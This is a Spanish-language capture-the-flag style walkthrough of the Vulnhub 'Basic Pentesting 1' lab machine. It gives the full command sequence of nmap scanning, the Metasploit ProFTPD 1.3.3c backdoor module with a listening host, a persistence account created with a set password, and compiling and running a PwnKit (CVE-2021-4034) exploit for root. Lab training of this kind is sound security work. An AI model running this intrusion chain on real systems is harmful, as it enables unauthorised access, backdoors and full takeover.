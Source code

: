 ```yaml
---
title: "Vulnhub #0: CSEC Basic Pentesting 1"
description: Pentesting a máquina CSEC 1 en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [Vulnhub](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Descubrimiento de host

Usamos `sudo netdiscover` para descubrir los host en la red.

```plaintext
Ubuntu:   192.168.0.20
Kali:     192.168.0.16
```

## Descubriendo servicios y versiones

Debemos identificar puertos, servicios y versiones de los mismos.

Usamos `nmap -sT -p- -A 192.168.0.26 -oA resultados`

En los resultados encontramos algo de interés:

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.3c
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

## Explotando la maquina

### Buscar exploit

Vamos a probar a romper `FTPd` con `metasploit`

Podemos lanzar metasploit con `msfconsole`

Si buscamos exploits con `search proFTPd` podemos encontrar una para nuestra version.

### Configuracion del exploit

Puedes usar `use unix/ftp/proftpd_133c_backdoor` para usar este exploit, tambien puedes usar su index.

Con show options vemos que debemos indicar el `rhosts`, `lhost` y un `exploit target` o payload a ejecutar.

Para ver los payloads disponibles `show payloads`.

Para cargar un payload `set payload index|path`. 

Para configurar la maquina a atacar `set rhosts 192.168.0.26`.

Para configurar que maquina se queda escuchando `set lhost 192.168.0.16`.

Lanzamos con `run`, deberíamos obtener acceso a una terminal, podemos comprobarlo con `whoami` o `ls`.

### Persistencia

Podemos crear un usuario con `useradd hhyyppeerr`.

Y crear una contraseña con `echo "hhyyppeerr:ilovesummer" | chpasswd`

Podemos comprobar que podemos entrar al sistema con `ssh hhyyppeerr@192.168.0.26` e introduciendo `ilovesummer` como contraseña.

## Weaponization y escalado de privilegios

Copiamos `linpeas` o el script que queramos usar a la maquina objetivo con `scp ./linpeas.sh hhyyppeerr@192.168.0.26:/tmp/linpeas.sh`.

Entramos de nuevo en la maquina objetivo con nuestro usuario y lanzamos el script.

Linpeas nos ha mostrado el siguiente exploit disponible:

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                            
[+] [CVE-2021-4034] PwnKit                                                                                                    

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Podemos buscar el CVE para encontrar exploits, en nuestro caso: https://github.com/arthepsy/CVE-2021-4034

Nos copiamos el repositorio a la maquina objetivo con `nano` o `scp`.

Compilamos y ejecutamos el codigo:

```plaintext
$ ls
cve-2021-4034-poc.c  README.md
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ls
cve-2021-4034-poc  cve-2021-4034-poc.c  README.md
$ ./cve-2021-4034-poc
# whoami
root
```

Puede que esto no funcione, pero con `make` si.
